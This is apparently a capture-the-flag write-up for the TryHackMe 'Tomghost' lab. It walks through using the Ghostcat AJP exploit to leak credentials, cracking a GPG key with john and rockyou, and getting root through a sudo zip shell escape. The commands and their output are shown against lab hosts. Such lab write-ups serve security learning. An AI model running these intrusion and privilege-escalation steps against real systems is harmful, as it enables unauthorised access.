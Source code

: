 # THM Thomghost writeup

## 8009 : tomcat

use exploit `48143.py` from [exploit db](https://exploit-db.com) and get :

```xml
Getting resource at ajp13://10.10.228.43:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	   skyfuck:passwd
  </description>

</web-app>
```

## 22 : ssh

login using creds `ssh skyfuck@$IP` then it's the `privesc` parts :

### privesc:

find two files : `credential.gpg` and `tryhackme.asc` then use john for decrypt the password of the gpg key :

```bash
gpg2john tryhackme.asc > key.hash
john -wordlist=/usr/share/wordlists/rockyou.txt key.hash
```

the use gpg to decrypt the file `credential.gpg` :

```
┌──(ismael㉿kali)-[~/Documents/CTF/THM/tomghost]
└─$ gpg --import private.key       
gpg: clef 8F3DA3DEC6707170 : « tryhackme <stuxnet@tryhackme.com> » n'est pas modifiée
gpg: clef 8F3DA3DEC6707170 : clef secrète importée
gpg: clef 8F3DA3DEC6707170 : « tryhackme <stuxnet@tryhackme.com> » n'est pas modifiée
gpg:       Quantité totale traitée : 2
gpg:                 non modifiées : 2
gpg:           clefs secrètes lues : 1
gpg:      clefs secrètes importées : 1
                                                                                                                                                                        
┌──(ismael㉿kali)-[~/Documents/CTF/THM/tomghost]
└─$ gpg --decrypt credential.pgp
gpg: Attention : l'algorithme de chiffrement CAST5 est introuvable
            dans les préférences du destinataire
gpg: chiffré avec une clef ELG de 1024 bits, identifiant 61E104A66184FBCC, créée le 2020-03-11
      « tryhackme <stuxnet@tryhackme.com> »
merlin:<passwd>
```

and login to ssh:

```
┌──(ismael㉿kali)-[~/Documents/CTF/THM/tomghost]
└─$ ssh merlin@10.10.126.249
merlin@10.10.126.249's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Sat Aug  6 06:52:00 2022 from 10.9.2.76
merlin@ubuntu:~$ cat flag.txt
<flag>
```

so now it's privesc time !

```
merlin@ubuntu:~$ id
uid=1000(merlin) gid=1000(merlin) groups=1000(merlin),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
go to [GTFOBins](https://gtfobins.github.io/gtfobins/) and search zip : [zip#sudo](https://gtfobins.github.io/gtfobins/zip/#sudo)
```
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

and get the second flag:
```
# cd /root
# ls
root.txt  ufw
# cat root.txt
<flag>
```
